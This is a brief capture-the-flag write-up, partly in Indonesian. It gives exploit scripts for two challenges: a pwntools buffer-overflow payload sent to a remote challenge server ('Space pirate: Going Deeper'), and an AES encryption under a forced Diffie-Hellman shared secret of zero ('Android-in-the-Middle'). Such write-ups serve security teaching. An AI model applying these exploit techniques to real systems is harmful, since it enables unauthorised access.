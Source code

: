 ## Space pirate: Going Deeper
pass
```
DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft
```

```python
#!/bin/python3

from pwn import *
from struct import pack

#elf = ELF('./sp_going_deeper')
#p = elf.process()

p = remote('178.62.83.221', 32339)

print(p.recvuntil(b'>>').decode())
p.send(b'1')
print(p.recvline().decode())

payload = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft'
payload += pack('<Q', 0x00000000000000)
print(payload)
p.sendline(payload)
print(p.recvall().decode())
```

## Android-in-the-Middle

memasukkan 0 ke M, kita bisa mendapatkan flagnya

```python
from Crypto.Cipher import AES
from Crypto.Util.number import long_to_bytes
import hashlib


def encrypt(message, shared_secret):
    key = hashlib.md5(long_to_bytes(shared_secret)).digest()
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(message)

txt = b"Initialization Sequence - Code 0"
txt = encrypt(txt, 0)

txt = txt.hex()
# make it to hex that seperated by space
txt = ' '.join(txt[i:i+2] for i in range(0, len(txt), 2))
print(txt)
```

